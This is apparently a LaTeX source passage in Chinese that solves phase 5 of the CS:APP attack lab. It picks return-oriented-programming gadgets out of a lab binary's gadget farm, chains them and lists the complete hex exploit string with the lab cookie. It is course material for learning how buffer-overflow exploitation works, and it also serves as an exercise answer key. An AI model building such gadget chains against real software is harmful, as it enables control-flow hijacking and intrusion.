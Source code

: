 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{lstlisting}
0000000000401a33 <getval_159>:      
401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
401a38:	c3                   	ret
\end{lstlisting}
    从 0x401a34 开始等价于执行 movl \%edx, \%ecx; cmpb \%cl, \%cl(这段代码只会给条件码赋值，无影响); retq;
\begin{lstlisting}
0000000000401a11 <addval_436>:
401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
401a17:	c3                   	ret
\end{lstlisting}
    从 0x401a13 开始等价于执行 movl \%ecx, \%esi; nop; nop; retq;
\begin{lstlisting}
0000000000401a03 <addval_190>:
401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
401a09:	c3                   	ret
\end{lstlisting}
    从 0x401a06 开始等价于执行 movq \%rsp, \%rax; retq;
\begin{lstlisting}
00000000004019a0 <addval_273>:
4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
4019a6:	c3                   	ret
\end{lstlisting}
    从 0x4019a2 开始等价于执行 movq \%rax, \%rdi; retq;
    \item 因此我们实际的汇编代码如下：
\begin{lstlisting}
popq  %rax
movl  %eax, %edx
movl  %edx, %ecx
movl  %ecx, %esi
movq  %rsp, %rax
movq  %rax, %rdi
call  <add_xy>
movq  %rax, %rdi
retq
\end{lstlisting}
    \item 答案如下（rtarget\_l5.txt，无注释）：
\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 // fill BUFFER_SIZE
ab 19 40 00 00 00 00 00 // popq %rax; retq
20 00 00 00 00 00 00 00 // bias is 0x20
dd 19 40 00 00 00 00 00 // movl %eax, %edx; retq
34 1a 40 00 00 00 00 00 // movl %edx, &ecx; retq
13 1a 40 00 00 00 00 00 // movl %ecx, %esi; retq
06 1a 40 00 00 00 00 00 // movq %rsp, %rax; retq (from now bias equals 0)
a2 19 40 00 00 00 00 00 // movq %rax, %rdi; retq 
d6 19 40 00 00 00 00 00 // callq <add_xy>
a2 19 40 00 00 00 00 00 // movq %rax, %rdi; retq
fa 18 40 00 00 00 00 00 // call <touch_3>
35 39 62 39 39 37 66 61 // cookie string
00 00 00 00             // end of string
\end{lstlisting}
    \item 用 hex2raw 转化一下作为输入，成功跳转
\begin{lstlisting}
./hex2raw < rtarget_l5.txt > rtarget.l5

\end{lstlisting}
\end{itemize}
\end{document}
